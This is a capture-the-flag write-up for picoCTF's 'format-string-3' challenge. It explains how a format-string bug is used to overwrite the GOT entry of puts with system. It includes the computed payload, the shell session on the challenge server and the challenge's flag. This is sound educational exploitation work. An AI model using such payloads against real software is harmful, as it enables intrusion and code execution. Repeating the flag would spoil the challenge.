 # format string 3

Format-string Exploit, GOT Overwrite

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/format-string-3/format-string-3_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
```

No PIE so the address of the GOT is fixed

Partial RELRO so we can overwrite the GOT with a format string exploit (see https://ir0nstone.gitbook.io/notes/types/stack/relro)

## Core Idea

The core idea is to overwrite the GOT entry of `puts` with the libc function of `system`. The big hint of this is as `puts` is called with the `normal_string` string, which is actually `/bin/sh`. 

We note that `puts` will already have been called before our malicious use of it, so the dynamic linker will not load the libc address of `puts` to overwrite our malicious entry. 

Also, since `puts` is not called after the GOT overwrite and before our intended use, so our overwriting of the GOT is guaranteed not to cause an error before the execution of `system('/bin/sh')`. 

## Offsets

From staring at the assembly, the following buffers are at these addresses relative to the stack frame

```c
rbp-0x410 => buf
rbp-0x510 / rsp => all_strings (array of 32 8-byte char pointers)
```

Notice from [format-string-3.c](./format-string-3.c) that `printf(buf)` is called with one argument. So `%6$p` will start pulling off the stack and leaking null-initialized (and thus not useful) `all_strings` buffer, since that refers to the seventh argument in the variable argument list of `printf`. 

To control the addresses that we write to, we need to specify arguments to be taken from `buf`. Since `buf - flag = 0x100`, we see that the first 8 bits of `buf` is referenced with `%38$p` (since `6 + 0x100//8 = 38`), or can be interpreted as an address to be written to with `%38$n`. 

The offset to be passed into pwntool's FmtStr object is thus 38. 

## Flag

We use pwntools to automate payload generation to obtain the flag (see [solve.py](./solve.py)). 

```bash
[+] Opening connection to rhea.picoctf.net on port 64607: Done
[*] repr(payload)="b'%1888c%46$lln%21c%47$hhn%25c%48$hhn%81c%49$hhn%12c%50$hhnaaaabaa\\x18@@\\x00\\x00\\x00\\x00\\x00\\x1d@@\\x00\\x00\\x00\\x00\\x00\\x1c@@\\x00\\x00\\x00\\x00\\x00\\x1b@@\\x00\\x00\\x00\\x00\\x00\\x1a@@\\x00\\x00\\x00\\x00\\x00'"
[*] Switching to interactive mode

$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}
```